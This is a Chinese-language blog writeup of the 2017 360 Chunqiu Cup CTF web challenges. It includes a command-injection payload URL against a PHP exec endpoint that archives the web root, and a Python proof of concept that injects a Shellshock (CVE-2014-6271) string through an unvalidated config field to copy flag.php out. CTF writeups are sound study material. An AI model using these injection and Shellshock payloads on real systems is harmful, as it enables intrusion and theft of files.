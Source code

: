 ```yaml
---
title: 360春秋杯2017 writeup
date: 2017-04-21 15:21:10
tags:
- ctf
- Blogs
categories:
- Blogs
---
```


题目不是太有趣，基本都是从hincon那里扒来的，正好整理完了，就发出来吧

<!--more-->

# where is my cat  #

没什么好说的，很有ichunqiu风格的一题

进去发现https签发机构不合法，点开发现颁证机关找到一个域名

到这里本以为是抄hitcon的，然后一通操作发现并不是...



然后发现cookie里有个host=0

把host改成那个域名，getflag

# 写一写 看一看 #

题目是原题抄
http://www.2cto.com/article/201510/446796.html

但是因为没有运维，所以服务器日常爆炸


进来发现可以编辑文件，然后找到exec.php

```
<?php
    highlight_file(__FILE__);

    $dir = 'tmp/'; 
    if(!file_exists($dir))
    mkdir($dir);   
    chdir($dir);
    if(!isset($_GET['shell'])){
    phpinfo();
    exit();
    }
    $shell = $_GET['shell'];
    for ( $i=0; $i<count($shell); $i++ ){
        if ( !preg_match('/^\w+$/', $shell[$i]) )
            exit();
    }  
    session_start();
    $path = $_SESSION['path'];
    $shell =  str_replace('path','/'.$path,implode(" ",$shell));
    exec("/bin/hence " . $shell);
?> 
```

前面都很好绕过，由于使用implode解参数，所以可以传入数组，但是输入只能输入字符很难受

先尝试wget+数字请求外网，貌似失败了，请求不到

然后是通过前台的编辑写文件内容，然后php+path执行，但是，做题的时候，编辑文件的接口炸了

最后想了一个办法，用tar压缩整个web目录

payload
```
http://106.75.34.78:2081/exec.php?shell[]=a%0A&shell[]=tar&shell[]=cvf&shell[]=ddog&shell[]=pathvarpathwwwpathhtml
```


下载下来grep找到flag


# mail #

打开http://106.75.106.156/web.tar.gz获取源码

发现核心问题是sendmail，但是没有可以利用的点

找到一篇文章
https://www.leavesongs.com/PHP/php-bypass-disable-functions-by-CVE-2014-6271.html

发现配合bash破壳漏洞可以执行任意命令
http://www.freebuf.com/articles/system/50065.html


option里有这样一段设置

![image_1be7kitqoi9p1dljektemf1ge69.png-24kB][1]

去追寻这个变量

```
function saveConfig($config){
   global $conn;
   foreach ($config as $key => $value) {
      $key = addslashes_deep($key);
      $strsql="select db_value from config where db_name='$key' limit 1"; 
      $result=mysql_query($strsql,$conn);
      $row = mysql_fetch_array($result);
      if(empty($row))
      {
         $strsql="insert into config(db_name,db_value) values('$key','$value')"; 
         $result=mysql_query($strsql,$conn);
      }else{
         $strsql="update config set db_value='$value' where db_name='$key'"; 
         $result=mysql_query($strsql,$conn);
      }
   }
}

function getConfig($key){
   global $conn;
   $strsql="select db_value from config where db_name='$key' limit 1"; 
   $result=mysql_query($strsql,$conn);
   $row = mysql_fetch_array($result);
   if(!empty($row))
   {
     return $row['db_value'];
   }
   return "";
}
```

配合option里的代码

```
if($_GET['action']== 'save')
{
  $config = $_POST['config'];
  
  saveConfig($config);
  
  die("<script>alert('保存成功！');history.go(-1);</script>");
}
```
我们发现修改里虽然没有timezone，但是并没有做任何校验，那我们直接post就可以修改了

poc
```
import requests

def f():
	url='http://106.75.106.156/options.php?action=save'
	payload={
		"config[timezone]":'''() { x; };  cat flag.php > /var/www/html/upload/1.txt''',
		"config[root_path]":"/var/www/html",
		"config[send_mail]":"xxx@mail.co",
	}
	cookies={
	"PHPSESSID":"7lm7gsvf2l54jvu1vejt2skvj5",
	}
	res=requests.post(url,cookies=cookies,data=payload)
	print res.content

f()
```

![{2EF1E062-1C81-DE56-2770-9A3E1CFA1953}.png-20.3kB][2]





  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/uk2r4vybmrbcd4d0wnb2f9a2/image_1be7kitqoi9p1dljektemf1ge69.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/4tcmorcgh6ili90rfm9my3bf/%7B2EF1E062-1C81-DE56-2770-9A3E1CFA1953%7D.png